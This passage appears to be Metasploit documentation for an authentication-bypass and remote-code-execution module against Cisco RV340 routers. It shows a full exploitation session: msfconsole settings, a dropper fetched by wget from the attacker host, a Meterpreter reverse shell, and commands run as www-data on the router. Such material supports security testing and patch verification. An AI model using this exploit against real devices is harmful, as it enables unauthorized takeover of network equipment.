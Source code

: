 ### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Cisco RV340 using firmware version 1.0.03.20. Reverse shell to meterpreter session.

```
msf > use exploits/linux/http/cisco_rv_series_authbypass_and_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set RHOST 10.0.0.8
RHOST => 10.0.0.8
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set LHOST 10.0.0.6
LHOST => 10.0.0.6
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set target 1
target => 1
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > run

[*] Started reverse TCP handler on 10.0.0.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/RIwkKfR
[*] Local IP: http://10.0.0.6:8080/RIwkKfR
[*] Client 10.0.0.8 (Wget) requested /RIwkKfR
[*] Sending payload to 10.0.0.8 (Wget)
[*] Sending stage (903400 bytes) to 10.0.0.8
[+] Exploit successfully executed.
[*] Meterpreter session 1 opened (10.0.0.6:4444 -> 10.0.0.8:34201 ) at 2022-01-29 18:48:24 -0800
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Server stopped.

meterpreter > shell
Process 2545 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux router0B874A 4.1.8 #2 SMP Thu Sep 17 09:26:06 IST 2020 armv7l GNU/Linux
ps faux
    1 root      2476 S    /sbin/procd
    2 root         0 SW   [kthreadd]
    3 root         0 SW   [ksoftirqd/0]
    5 root         0 SW<  [kworker/0:0H]
    6 root         0 SW   [kworker/u4:0]
    7 root         0 SW   [rcu_sched]
    8 root         0 SW   [rcu_bh]
    9 root         0 SW   [migration/0]
   10 root         0 SW   [migration/1]
   11 root         0 SW   [ksoftirqd/1]
   12 root         0 SW   [kworker/1:0]
   13 root         0 SW<  [kworker/1:0H]
   14 root         0 SW<  [khelper]
   15 root         0 SW<  [perf]
   16 root         0 SW   [kworker/u4:1]
  242 root         0 SW<  [writeback]
  243 root         0 SW<  [crypto]
  245 root         0 SW   [kworker/0:1]
  246 root         0 SW<  [bioset]
  247 root         0 SW<  [kblockd]
  301 root         0 SW   [kswapd0]
```